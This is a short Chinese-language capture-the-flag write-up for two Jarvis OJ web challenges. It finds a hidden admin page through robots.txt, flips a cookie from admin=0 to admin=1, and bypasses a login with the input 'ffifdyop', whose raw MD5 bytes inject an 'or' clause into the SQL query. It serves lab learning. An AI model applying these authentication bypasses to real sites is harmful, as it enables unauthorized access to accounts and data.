   扫一下，发现robot.txt

  内容是`Disallow: /admin_s3cr3t.php`

  进入`admin_s3cr3t.php`，出现`flag{hello guest} `

  假flag，抓包

  ![8](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/8.png)

  把admin=0改成1得到flag

  `flag{hello_admin~}`

  

* #### Login

   ![9](https://raw.githubusercontent.com/AiDaiP/AiDaiP.github.io/master/images/Jarvis%20OJ/9.png)

  改admin没什么用

  发现hint

  ```sql
  select * from `admin` where password='".md5($pass,true)."'
  ```

  `md5('ffifdyop',true)='or'6�]��!r,��b`

  输入`ffifdyop`组成sql语句

  ```sql
  select * from admin where password=''or'6�]��!r,��b'
  ```
